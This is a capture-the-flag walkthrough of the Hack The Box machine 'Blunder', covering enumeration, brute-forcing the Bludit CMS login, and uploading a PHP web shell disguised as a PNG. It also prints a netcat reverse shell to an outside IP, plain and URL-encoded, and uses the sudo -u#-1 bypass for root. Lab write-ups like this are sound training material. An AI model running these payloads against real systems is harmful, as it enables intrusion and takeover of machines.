# Blunder
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 12:05 BST
Nmap scan report for 10.10.10.191 (10.10.10.191)
Host is up (0.10s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```
- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.191
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/07/01 14:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/about                (Status: 200) [Size: 3281]
/.php                 (Status: 403) [Size: 277]
/0                    (Status: 200) [Size: 7562]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
/install.php          (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 22]
/todo.txt             (Status: 200) [Size: 118]
/usb                  (Status: 200) [Size: 3960]
/LICENSE              (Status: 200) [Size: 1083]
```

- Interesting paths




## Foothold
- `Searchsploit`



- We know from the note that there is a user named `fergus`
  - Need to find version of the cms
  - We can assume it's version is `3.9.2`




- Let's check an exploit for credential bruteforcing


- So I ran `poc` with `rockyou` wordlist, but no success
  - Then I used `cewl` to create a wordlist from the webserver
  - `cewl http://10.10.10.191 > passwd.list`



- Then I started the exploit
  - `fergus:RolandDeschain`




- It seems that `Bludit` also has directory traversal vulnerability



- Let's run that exploit
  - Prepare payloads
    - `echo '<?php system($_REQUEST["cmd"]); ?>' > evil.png`
    - `echo "RewriteEngine off" > .htaccess`
    - `echo "AddType application/x-httpd-php .png" >> .htaccess`





- Rev shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - URL encoded:`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.16.7%206666%20%3E%2Ftmp%2Ff`



## User
- Enumeration
  - We can start with `linpeas`
  - Or
    - Start with `/var/www`
    - Let's search for files with `password` 
  - We found 2 `users.php` files for `3.10.0a` and `3.9.2` versions
    - We see a password for `Hugo`, which is a user on the box





- Crack the hash and try `su`
  - `hugo:Password120`




## Root
- Start with `sudo -l`


- We can run `sudo` as any user except `root`
  - Let's check the version just in case


- We have a [bypass](https://www.exploit-db.com/exploits/47502) for this specific case
  - `sudo -u#-1 /bin/bash`



